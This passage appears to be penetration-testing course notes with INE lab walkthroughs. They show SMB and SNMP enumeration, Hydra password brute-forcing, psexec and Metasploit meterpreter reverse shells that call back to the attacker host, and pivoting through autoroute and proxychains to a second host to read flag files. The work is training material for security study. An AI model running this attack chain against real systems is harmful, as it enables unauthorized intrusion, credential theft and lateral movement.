ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.1.0.9        INE
10.10.50.3      INE
127.0.0.1 AttackDefense-Kali
10.4.25.184    demo.ine.local ←
10.4.30.46    demo1.ine.local ←
```

`fping demo.ine.local demo1.ine.local`:
```
demo.ine.local is alive ←
demo1.ine.local is unreachable
```

`nmap -Pn -sS -sU -sV -F -T5 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-29 12:49 IST
Nmap scan report for demo.ine.local (10.4.25.184)
Host is up (0.0095s latency).
Not shown: 92 closed tcp ports (reset), 5 closed udp ports (port-unreach), 95 open|filtered udp ports (no-response)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn ←
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds ←
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 290.01 seconds
```

<span style="color: #64b5f6;">**Target (`demo.ine.local`) machine**</span>.

`ls /usr/share/nmap/scripts/ | grep -e "smb"`:
```
smb2-capabilities.nse
smb2-security-mode.nse
smb2-time.nse
smb2-vuln-uptime.nse
smb-brute.nse
smb-double-pulsar-backdoor.nse
smb-enum-domains.nse
smb-enum-groups.nse
smb-enum-processes.nse
smb-enum-services.nse
smb-enum-sessions.nse
smb-enum-shares.nse
smb-enum-users.nse ←
smb-flood.nse
smb-ls.nse
smb-mbenum.nse
smb-os-discovery.nse
smb-print-text.nse
smb-protocols.nse ←
smb-psexec.nse
smb-security-mode.nse ←
smb-server-stats.nse
smb-system-info.nse

[...]
```

`nmap -Pn -sS --script=smb-protocols -p445 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-28 22:13 IST
Nmap scan report for demo.ine.local (10.4.25.184)
Host is up (0.010s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default] ←
|     2.0.2
|     2.1
|     3.0
|_    3.0.2

Nmap done: 1 IP address (1 host up) scanned in 5.37 seconds
```

`nmap -Pn -sS --script=smb-security-mode -p445 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-28 22:15 IST
Nmap scan report for demo.ine.local (10.4.25.184)
Host is up (0.0087s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default) ←

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

`smbclient --help`:
```
Usage: smbclient service <password>
  -R, --name-resolve=NAME-RESOLVE-ORDER     Use these name resolution services only
  -M, --message=HOST                        Send message
  -I, --ip-address=IP                       Use this IP to connect to
  -E, --stderr                              Write messages to stderr instead of stdout
  -L, --list=HOST                           Get a list of shares available on a host ←
  -m, --max-protocol=LEVEL                  Set the max protocol level
  -T, --tar=<c|x>IXFvgbNan                  Command line tar
  -D, --directory=DIR                       Start from directory
  -c, --command=STRING                      Execute semicolon separated commands
  -b, --send-buffer=BYTES                   Changes the transmit/send buffer
  -t, --timeout=SECONDS                     Changes the per-operation timeout
  -p, --port=PORT                           Port to connect to
  -g, --grepable                            Produce grepable output
  -q, --quiet                               Suppress help message
  -B, --browse                              Browse SMB servers using DNS

Help options:
  -?, --help                                Show this help message
      --usage                               Display brief usage message

Common samba options:
  -d, --debuglevel=DEBUGLEVEL               Set debug level
  -s, --configfile=CONFIGFILE               Use alternate configuration file
  -l, --log-basename=LOGFILEBASE            Base name for log files
  -V, --version                             Print version
      --option=name=value                   Set smb.conf option from command line

Connection options:
  -O, --socket-options=SOCKETOPTIONS        socket options to use
  -n, --netbiosname=NETBIOSNAME             Primary netbios name
  -W, --workgroup=WORKGROUP                 Set the workgroup name
  -i, --scope=SCOPE                         Use this Netbios scope

Authentication options:
  -U, --user=USERNAME                       Set the network username
  -N, --no-pass                             Don't ask for a password
  -k, --kerberos                            Use kerberos (active directory) authentication
  -A, --authentication-file=FILE            Get the credentials from a file
  -S, --signing=on|off|required             Set the client signing state
  -P, --machine-pass                        Use stored machine account password
  -e, --encrypt                             Encrypt SMB transport
  -C, --use-ccache                          Use the winbind ccache for authentication
      --pw-nt-hash                          The supplied password is the NT hash
```

`smbclient -L demo.ine.local`:
```
Enter WORKGROUP\root's password: ←
Anonymous login successful ←

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Documents       Disk      
        Downloads       Disk      
        IPC$            IPC       Remote IPC
        print$          Disk      Printer Drivers
        Public          Disk      
Reconnecting with SMB1 for workgroup listing. ←
do_connect: Connection to demo.ine.local failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

`nmap -Pn -sS --script=smb-enum-users -p445 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-28 22:19 IST
Nmap scan report for demo.ine.local (10.4.25.184)
Host is up (0.0087s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-users: 
|   ATTACKDEFENSE\admin (RID: 1009) ←
|     Flags:       Normal user account, Password does not expire
|   ATTACKDEFENSE\Administrator (RID: 500) ←
|     Description: Built-in account for administering the computer/domain
|     Flags:       Normal user account, Password does not expire
|   ATTACKDEFENSE\Guest (RID: 501)
|     Description: Built-in account for guest access to the computer/domain
|     Flags:       Account disabled, Normal user account, Password does not expire, Password not required
|   ATTACKDEFENSE\root (RID: 1010) ←
|_    Flags:       Normal user account, Password does not expire

Nmap done: 1 IP address (1 host up) scanned in 2.57 seconds
```

`vim ./target-1_users.txt`:
```
admin
administrator
root
```

`hydra -L ./target-1_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb`:
```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-28 22:33:24
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 3027 login tries (l:3/p:1009), ~3027 tries per task
[DATA] attacking smb://demo.ine.local:445/
[445][smb] host: demo.ine.local   login: admin   password: tinkerbell ←
[445][smb] host: demo.ine.local   login: administrator   password: password1 ←
[445][smb] host: demo.ine.local   login: root   password: elizabeth ←
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-28 22:33:29
```

`psexec.py administrator@demo.ine.local`:
```
Impacket v0.9.25.dev1+20220131.200424.badf09d - Copyright 2021 SecureAuth Corporation

Password: ←
[*] Requesting shares on demo.ine.local.....
[*] Found writable share ADMIN$ ←
[*] Uploading file TzLRjzHC.exe ←
[*] Opening SVCManager on demo.ine.local.....
[*] Creating service IxXz on demo.ine.local..... ←
[*] Starting service IxXz..... ←
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

`whoami`:
```
nt authority\system ←
```

`exit`

`msfconsole -q`

`search psexec`, `use exploit/windows/smb/psexec`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set RHOSTS demo.ine.local`, `set LHOST 10.10.50.3`, `set LPORT 4444`, `set SMBUser administrator`, `set SMBPass password1`, `exploit`:
```
[*] Started reverse TCP handler on 10.10.50.3:4444 ←
[*] 10.4.25.184:445 - Connecting to the server...
[*] 10.4.25.184:445 - Authenticating to 10.4.25.184:445 as user 'administrator'...
[*] 10.4.25.184:445 - Selecting PowerShell target
[*] 10.4.25.184:445 - Executing the payload...
[+] 10.4.25.184:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.4.25.184
[*] Meterpreter session 1 opened (10.10.50.3:4444 -> 10.4.25.184:49245 ) at 2024-08-29 12:51:39 +0530 ←
```

`sessions`, `sessions -i 1`

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

`where /r C:\\ "*flag*"`:
```
C:\Users\Administrator\Documents\FLAG1.txt ←
```

`type C:\Users\Administrator\Documents\FLAG1.txt`:
```
8de67f44f49264e6c99e8a8f5f17110c ←
```

`ipconfig`:
```
Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 13
============
Name         : Amazon Elastic Network Adapter
Hardware MAC : 0e:09:e5:1a:27:e7
MTU          : 1500
IPv4 Address : 10.4.25.184 ←
IPv4 Netmask : 255.255.240.0
IPv6 Address : fe80::95b7:79b3:f126:6cc5
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 24
============
Name         : Microsoft ISATAP Adapter #2
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:a04:19b8
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

`ping -n 3 10.4.30.46`:
```
Pinging 10.4.30.46 with 32 bytes of data:
Reply from 10.4.30.46: bytes=32 time<1ms TTL=128
Reply from 10.4.30.46: bytes=32 time<1ms TTL=128
Reply from 10.4.30.46: bytes=32 time<1ms TTL=128

Ping statistics for 10.4.30.46:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss), ←
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

`exit`

`run autoroute -s 10.4.30.0/24`:
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.4.30.0/255.255.255.0...
[+] Added route to 10.4.30.0/255.255.255.0 via 10.4.25.184 ←
[*] Use the -p option to list all active routes
```

`run autoroute -p`:
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.4.30.0          255.255.255.0      Session 2 ←
```

`background`

<span style="color: #e57373;">**Attacker machine**</span>.

`search portscan`, `use auxiliary/scanner/portscan/tcp`, `show options`, `set RHOSTS demo1.ine.local`, `set PORTS 1-1000`, `run`:
```
[+] 10.4.30.46:           - 10.4.30.46:135 - TCP OPEN
[+] 10.4.30.46:           - 10.4.30.46:139 - TCP OPEN ←
[+] 10.4.30.46:           - 10.4.30.46:445 - TCP OPEN ←
[*] demo1.ine.local:      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

`locate proxychains`:
```
/etc/proxychains4.conf ←
/etc/alternatives/proxychains
/etc/alternatives/proxychains.1.gz
/usr/bin/proxychains
/usr/bin/proxychains4
/usr/bin/proxychains4-daemon
/usr/lib/x86_64-linux-gnu/libproxychains.so.4
/usr/share/applications/kali-proxychains.desktop
/usr/share/doc/libproxychains4
/usr/share/doc/proxychains4
/usr/share/doc/libproxychains4/README.Debian
/usr/share/doc/libproxychains4/changelog.Debian.gz
/usr/share/doc/libproxychains4/copyright
/usr/share/doc/proxychains4/README.gz

[...]
```

`cat /etc/proxychains4.conf`:
```
[...]

# ProxyList format
#       type  ip  port [user pass]
#       (values separated by 'tab' or 'blank')
#
#       only numeric ipv4 addresses are valid
#
#
#        Examples:
#
#               socks5  192.168.67.78   1080    lamer   secret
#               http    192.168.89.3    8080    justu   hidden
#               socks4  192.168.1.49    1080
#               http    192.168.39.93   8080
#
#
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050 ←
```

`search socks`, `use auxiliary/server/socks_proxy`, `show options`, `set SRVPORT 9050`, `set VERSION 4a`, `run`:
```
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server ←
```

`netstat -antp | grep -e ":9050"`:
```
tcp        0      0 0.0.0.0:9050            0.0.0.0:*               LISTEN      425/ruby ←
```

`proxychains nmap -Pn -sT --script=smb-enum-shares -p445 demo1.ine.local`:
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-29 13:31 IST
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.30.46:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.30.46:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.30.46:445  ...  OK

[...]

Nmap scan report for demo1.ine.local (10.4.30.46)
Host is up (0.076s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: <blank>
|   \\10.4.30.46\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|   \\10.4.30.46\C$: ←
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|   \\10.4.30.46\D$: ←
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|   \\10.4.30.46\Documents: ←
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: READ
|   \\10.4.30.46\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ/WRITE
|   \\10.4.30.46\K: ←
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: READ
|   \\10.4.30.46\K$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|   \\10.4.30.46\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|_    Anonymous access: READ

Nmap done: 1 IP address (1 host up) scanned in 80.48 seconds
```

`sessions -i 1`

<span style="color: #64b5f6;">**Target (`demo.ine.local`) machine**</span>.

`net view 10.4.30.46`:
```
System error 5 has occurred.

Access is denied. ←
```

`background`

<span style="color: #e57373;">**Attacker machine**</span>.

`proxychains nmap -Pn -sT --script=smb-enum-users -p445 demo1.ine.local`:
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-29 13:17 IST
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.30.46:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.30.46:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.30.46:445  ...  OK
Nmap scan report for demo1.ine.local (10.4.30.46)
Host is up (0.074s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds ←

Host script results:
| smb-enum-users: 
|   ATTACKDEFENSE\Administrator (RID: 500) ←
|     Description: Built-in account for administering the computer/domain
|     Flags:       Password does not expire, Normal user account
|   ATTACKDEFENSE\Guest (RID: 501)
|     Description: Built-in account for guest access to the computer/domain
|_    Flags:       Password does not expire, Password not required, Account disabled, Normal user account

Nmap done: 1 IP address (1 host up) scanned in 6.16 seconds
```

`proxychains hydra -l administrator -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo1.ine.local smb`:
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-29 13:20:20
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 1009 login tries (l:1/p:1009), ~1009 tries per task
[DATA] attacking smb://demo1.ine.local:445/
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.30.46:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.30.46:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.30.46:445  ...  OK

[...]

[445][smb] host: demo1.ine.local   login: administrator   password: password1 ←
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-29 13:20:30
```

`proxychains psexec.py administrator@demo1.ine.local`:
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Impacket v0.9.25.dev1+20220131.200424.badf09d - Copyright 2021 SecureAuth Corporation

Password: ←
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.30.46:445  ...  OK
[*] Requesting shares on demo1.ine.local.....
[*] Found writable share ADMIN$
[*] Uploading file KwDqiwCT.exe
[*] Opening SVCManager on demo1.ine.local.....
[*] Creating service sLUm on demo1.ine.local.....
[*] Starting service sLUm.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

<span style="color: #81c784;">**Target (`demo1.ine.local`) machine**</span>.

`whoami`:
```
nt authority\system ←
```

`where /r C:\\ "*flag*"`:
```
```

`wmic logicaldisk get name`:
```
Name  
C:
D: ←  
K: ←
```

`where /r D:\\ "*flag*"`:
```
```

`where /r K:\\ "*flag*"`:
```
```

`net view`:
```
System error 6118 has occurred.

The list of servers for this workgroup is not currently available ←
```

`net view 127.0.0.1`:
```
Shared resources at 127.0.0.1


Share name  Type  Used as  Comment  

-------------------------------------------------------------------------------
Documents   Disk ← 
K           Disk                    
The command completed successfully.
```

`net use F: \\127.0.0.1\Documents`:
```
The command completed successfully. ←
```

`dir F:\`:
```
 Volume in drive F has no label.
 Volume Serial Number is 5CD6-020B

 Directory of F:\

01/04/2022  05:22 AM    <DIR>          .
01/04/2022  05:22 AM    <DIR>          ..
01/04/2022  05:07 AM             1,425 Confidential.txt
01/04/2022  05:22 AM                70 FLAG2.txt ←
               2 File(s)          1,495 bytes
               2 Dir(s)   6,604,533,760 bytes free
```

`type F:\\FLAG2.txt`:
```
c8f58de67f44f49264e6c99e8f17110c ←
```

### Windows Enumeration: SNMP Enumeration - Theory

#### Simple Network Management Protocol (SNMP)

SNMP (Simple Network Management Protocol) is a widely used protocol <u>for monitoring and managing networked devices, such as routers, switches, printers, servers, and more</u>.
It allows network administrators <u>to query devices for status information, configure certain settings, and receive alerts or traps when specific events occur</u>.

SNMP is an application layer protocol that typically uses UDP for transport.

It involves three primary components:
	- SNMP Manager: The system responsible for querying and interacting with SNMP agents on networked devices.
	- SNMP Agent: Software running on networked devices that responds to SNMP queries and sends traps.
	- Management Information Base (MIB): A hierarchical database that defines the structure of data available through SNMP. Each piece of data has a unique Object Identifier (OID).

**Versions of SNMP:**
	- SNMPv1: The earliest version, <u>using community strings (essentially passwords) for authentication</u>.
	- SNMPv2c: An improved version with support for bulk transfers but <u>still relying on community strings for authentication</u>.
	- SNMPv3: Introduced security features, including encryption, message integrity, and user-based authentication.

**Ports:**
	- Port 161 (UDP): Used for SNMP queries.
	- Port 162 (UDP): Used for SNMP traps (notifications).

#### SNMP Enumeration

SNMP enumeration in penetration testing involves querying SNMP-enabled devices to gather information useful for identifying potential vulnerabilities, misconfigurations, or points of attack.

Here are the key objectives and outcomes of SNMP enumeration during a pentest:
	- **Identify SNMP-Enabled Devices**: Determine which devices on the network have SNMP enabled and whether they are vulnerable to information leakage or attacks.
	- **Extract System Information**: Collect system-related data like device names, operating systems, software versions, network interfaces, and more.
	- **Identify SNMP Community Strings**: Test for default or weak community strings, which can grant unauthorized access to device information.
	- **Retrieve Network Configurations**: Gather information about routing tables, network interfaces, IP addresses, and other network-specific details.
	- **Collect User and Group Information**: In some cases, SNMP can reveal user account information and access permissions.
	- **Identify Services and Applications**: Find out which services and applications are running on the target devices, potentially leading to further attack vectors.

### Windows Enumeration: SNMP Enumeration (with Nmap, snmpwalk) - Lab

#### Lab Environment

In this lab, you will learn to scan the target machine to discover SNMP service and perform information gathering using SNMP Nmap scripts and other tools.

In this lab environment, the user will get access to a Kali GUI instance. An instance of the vulnerable service can be accessed using the tools installed on Kali at `demo.ine.local`.

**Objective:** Exploit the target to gain the shell and find the flag!

The best tools for this lab are:
	- Nmap
	- Metasploit Framework
	- snmpwalk
	- Hydra.

#### Lab Solution

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.9  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:09  txqueuelen 0  (Ethernet)
        RX packets 1034  bytes 100983 (98.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1290  bytes 1792611 (1.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.46.2  netmask 255.255.255.0  broadcast 10.10.46.255 ←
        ether 02:42:0a:0a:2e:02  txqueuelen 0  (Ethernet)
        RX packets 12  bytes 1016 (1016.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2392  bytes 17841218 (17.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2392  bytes 17841218 (17.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping -a -g 10.10.46.0/24 2> /dev/null`:
```
10.10.46.1 is alive
10.10.46.2 is alive
```

`cat /etc/hosts`:
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.1.0.9        INE
10.10.46.2      INE
127.0.0.1 AttackDefense-Kali
10.4.17.179    demo.ine.local ←
```

`fping demo.ine.local`:
```
demo.ine.local is alive ←
```

`nmap -Pn -sS -sU -sV -F -T5 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-29 11:39 IST
Nmap scan report for demo.ine.local (10.4.17.179)
Host is up (0.0089s latency).
Not shown: 96 closed tcp ports (reset), 7 closed udp ports (port-unreach), 92 open|filtered udp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
161/udp  open  snmp          SNMPv1 server (public) ←
Service Info: Host: AttackDefense; OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 284.28 seconds
```

<span style="color: #64b5f6;">**Target (`demo.ine.local`) machine enumeration**</span>.

`ls -alps /usr/share/nmap/scripts/ | grep -e "snmp"`:
```
 8 -rw-r--r-- 1 root root  7816 Oct 26  2021 snmp-brute.nse ←
 8 -rw-r--r-- 1 root root  4388 Oct 26  2021 snmp-hh3c-logins.nse
 8 -rw-r--r-- 1 root root  5216 Oct 26  2021 snmp-info.nse
28 -rw-r--r-- 1 root root 28644 Oct 26  2021 snmp-interfaces.nse
 8 -rw-r--r-- 1 root root  5978 Oct 26  2021 snmp-ios-config.nse
 8 -rw-r--r-- 1 root root  4156 Oct 26  2021 snmp-netstat.nse
 8 -rw-r--r-- 1 root root  4431 Oct 26  2021 snmp-processes.nse
 4 -rw-r--r-- 1 root root  1857 Oct 26  2021 snmp-sysdescr.nse
 4 -rw-r--r-- 1 root root  2570 Oct 26  2021 snmp-win32-services.nse ←
 4 -rw-r--r-- 1 root root  2739 Oct 26  2021 snmp-win32-shares.nse ←
 8 -rw-r--r-- 1 root root  4713 Oct 26  2021 snmp-win32-software.nse ←
 4 -rw-r--r-- 1 root root  2016 Oct 26  2021 snmp-win32-users.nse
```

`nmap -sU --script=snmp-brute -p161 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-29 11:25 IST
Nmap scan report for demo.ine.local (10.4.17.179)
Host is up (0.0090s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-brute: 
|   public - Valid credentials ←
|   private - Valid credentials ←
|_  secret - Valid credentials ←

Nmap done: 1 IP address (1 host up) scanned in 1.63 seconds
```

`nmap -sU --script=snmp-win32-shares -p161 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-29 11:27 IST
Nmap scan report for demo.ine.local (10.4.17.179)
Host is up (0.0090s latency).

PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 0.34 seconds
```

`nmap -sU --script=snmp-win32-users -p161 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-29 11:26 IST
Nmap scan report for demo.ine.local (10.4.17.179)
Host is up (0.0087s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-win32-users: 
|   Administrator ←
|   DefaultAccount
|   Guest
|   WDAGUtilityAccount
|_  admin ←

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds
```

`nmap -sU --script=snmp-win32-software -p161 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-29 11:26 IST
Nmap scan report for demo.ine.local (10.4.17.179)
Host is up (0.0087s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-win32-software: 
|   AWS PV Drivers; 2020-09-09T03:39:12
|   AWS Tools for Windows; 2020-09-09T03:45:04
|   Amazon SSM Agent; 2020-09-09T03:38:42
|   Amazon SSM Agent; 2020-09-09T03:38:38
|   Mozilla Firefox 82.0.2 (x64 en-US); 2020-11-07T07:47:26
|   Mozilla Maintenance Service; 2020-11-07T07:47:26
|_  aws-cfn-bootstrap; 2020-06-10T05:37:48

Nmap done: 1 IP address (1 host up) scanned in 0.62 seconds
```

`nmap -sU --script=snmp-win32-services -p161 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-29 11:29 IST
Nmap scan report for demo.ine.local (10.4.17.179)
Host is up (0.0088s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-win32-services: 
|   Amazon SSM Agent
|   AppX Deployment Service (AppXSVC)
|   Background Tasks Infrastructure Service
|   Base Filtering Engine
|   CNG Key Isolation
|   COM+ Event System
|   Certificate Propagation
|   Client License Service (ClipSVC)
|   Computer Browser
|   Connected Devices Platform Service
|   Connected Devices Platform User Service_2ff1d
|   CoreMessaging
|   Credential Manager
|   Cryptographic Services
|   DCOM Server Process Launcher
|   DHCP Client
|   DNS Client
|   Data Sharing Service
|   Delivery Optimization
|   Device Setup Manager
|   Diagnostic Policy Service
|   Distributed Link Tracking Client
|   Distributed Transaction Coordinator
|   Group Policy Client
|   IKE and AuthIP IPsec Keying Modules
|   IP Helper
|   IPsec Policy Agent
|   Local Session Manager
|   Microsoft Account Sign-in Assistant
|   Network Connection Broker
|   Network List Service
|   Network Location Awareness
|   Network Store Interface Service
|   Optimize drives
|   Plug and Play
|   Power
|   Print Spooler
|   RPC Endpoint Mapper
|   Remote Desktop Configuration
|   Remote Desktop Services
|   Remote Desktop Services UserMode Port Redirector
|   Remote Procedure Call (RPC)
|   SNMP Service
|   Security Accounts Manager
|   Server
|   Shell Hardware Detection
|   State Repository Service
|   Storage Service
|   SysMain
|   System Event Notification Service
|   System Events Broker
|   TCP/IP NetBIOS Helper
|   Task Scheduler
|   Themes
|   Time Broker
|   Touch Keyboard and Handwriting Panel Service
|   Update Orchestrator Service
|   User Access Logging Service
|   User Manager
|   User Profile Service
|   Virtual Disk
|   Web Account Manager
|   WinHTTP Web Proxy Auto-Discovery Service
|   Windows Connection Manager
|   Windows Defender Firewall
|   Windows Event Log
|   Windows Font Cache Service
|   Windows License Manager Service
|   Windows Management Instrumentation
|   Windows Modules Installer
|   Windows Push Notifications System Service
|   Windows Push Notifications User Service_2ff1d
|   Windows Remote Management (WS-Management)
|   Windows Time
|   Windows Update Medic Service
|_  Workstation

Nmap done: 1 IP address (1 host up) scanned in 0.97 seconds
```

`snmpwalk`:
```
USAGE: snmpwalk [OPTIONS] AGENT [OID]

  Version:  5.9.1
  Web:      http://www.net-snmp.org/
